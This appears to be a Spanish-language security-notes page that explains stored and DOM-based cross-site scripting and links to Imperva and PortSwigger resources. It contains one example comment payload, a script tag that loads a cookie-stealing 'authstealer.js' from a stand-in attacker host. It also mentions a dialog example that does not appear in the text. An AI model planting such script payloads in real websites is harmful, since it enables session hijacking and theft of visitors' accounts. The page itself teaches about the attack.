 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Stored Cross Site Scripting

Los ataques XSS almacenados o persistentes ocurren cuando un código o script malicioso se almacena permanentemente en un servidor vulnerable o malicioso, utilizando una base de datos.

Mientras navega por un sitio web de comercio electrónico, un delincuente descubre una vulnerabilidad que permite incrustar etiquetas HTML en la sección de comentarios del sitio. Las etiquetas incrustadas se convierten en una característica permanente de la página, lo que hace que el navegador las analice con el resto del código fuente cada vez que se abre la página.

El atacante añade el siguiente comentario:  ¡Gran precio por un gran artículo! Lea mi reseña aquí \<script src=”http://hackersite.com/authstealer.js”> \</script> .

A partir de este momento, cada vez que se acceda a la página, la etiqueta HTML en el comentario activará un archivo JavaScript, que está alojado en otro sitio y tiene la capacidad de robar las cookies de sesión de los visitantes.

Al utilizar la cookie de sesión, el atacante puede comprometer la cuenta del visitante, permitiéndole acceder fácilmente a su información personal y a los datos de su tarjeta de crédito. Mientras tanto, el visitante, que tal vez ni siquiera haya bajado a la sección de comentarios, no sabe que se produjo el ataque.

A diferencia de un ataque reflejado, donde el script se activa después de hacer clic en un enlace, un ataque almacenado sólo requiere que la víctima visite el [página web comprometida](https://www.imperva.com/learn/application-security/cyber-security/) . Esto aumenta el alcance del ataque, poniendo en peligro a todos los visitantes sin importar su nivel de vigilancia.

Desde el punto de vista del perpetrador, los ataques XSS persistentes son relativamente más difíciles de ejecutar debido a las dificultades para localizar tanto un sitio web con tráfico como uno con vulnerabilidades que permitan la incrustación permanente de scripts.

En este ejemplo, el mensaje del cuadro de diálogo es "¡Omar estuvo aquí!" Sin embargo, en un ataque real, un atacante podría presentar a los usuarios un texto que los persuada a realizar una acción específica, como "su contraseña ha caducado" o "inicie sesión nuevamente". El objetivo del atacante sería redirigir al usuario a otro sitio para robar sus credenciales cuando el usuario intente cambiar la contraseña o iniciar sesión nuevamente en la aplicación falsa.

El modelo de objetos de documento (DOM) es una interfaz de programación de aplicaciones multiplataforma e independiente del lenguaje que trata un documento HTML, XHTML o XML como una estructura de árbol. Los ataques basados ​​en DOM suelen ser ataques XSS reflejados que se activan mediante el envío de un enlace con entradas que se reflejan en el navegador web. En los ataques XSS basados ​​en DOM, la carga útil nunca se envía al servidor. En cambio, la carga útil solo la procesa el cliente web (navegador).

En un ataque XSS basado en DOM, el atacante envía una URL maliciosa a la víctima y, después de que la víctima hace clic en el enlace, el atacante puede cargar un sitio web malicioso o un sitio que tiene un controlador de ruta DOM vulnerable. Una vez que el navegador representa el sitio vulnerable, la carga útil ejecuta el ataque en el contexto del usuario en ese sitio.

Uno de los efectos de cualquier tipo de ataque XSS es que la víctima normalmente no se da cuenta de que se ha producido un ataque.

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/" %}

{% embed url="https://portswigger.net/web-security/cross-site-scripting/stored" %}

{% embed url="https://portswigger.net/web-security/cross-site-scripting" %}
